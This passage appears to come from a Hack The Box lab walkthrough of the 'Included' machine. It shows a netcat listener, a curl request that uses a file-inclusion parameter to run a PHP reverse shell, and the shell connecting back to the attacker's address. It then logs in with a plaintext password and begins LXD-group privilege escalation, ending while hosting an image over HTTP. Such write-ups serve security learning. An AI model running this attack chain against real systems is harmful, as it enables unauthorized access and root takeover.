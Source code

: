 ```
Spawn a netcat listener:

```
root@kaligra:/opt/htb-startingpoint/Included# nc -nlvp 4444
listening on [any] 4444 ...
```

```
# curl -L http://10.129.88.142/index.php?file=/var/lib/tftpboot/php-reverse-shell.php
```

### Foothold

```
connect to [10.10.16.44] from (UNKNOWN) [10.129.88.142] 53288
Linux included 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 17:20:13 up 20 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ su - mike
su: must be run from a terminal
$ python3 -c 'import pty; pty.spawn("/bin/bash");'
www-data@included:/$ su - mike
su - mike
Password: Sheffield19

mike@included:~$
```

We notice that `mike` is member of `lxc` group.

Then, we try local privesc through Linux Container.

rif. https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

```
apt update
apt install -y golang-go debootstrap rsync gpg squashfs-tools
git clone https://github.com/lxc/distrobuilder
cd distrobuilder/
make
```

Build `alpine` container:

```
mkdir -p $HOME/ContainerImages/alpine
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
distrobuilder build-lxd alpine.yaml -o image.release=3.8
```

We upload stuff on remote target:

```
root@kaligra:~/ContainerImages/alpine# python3 -m http.server 8000
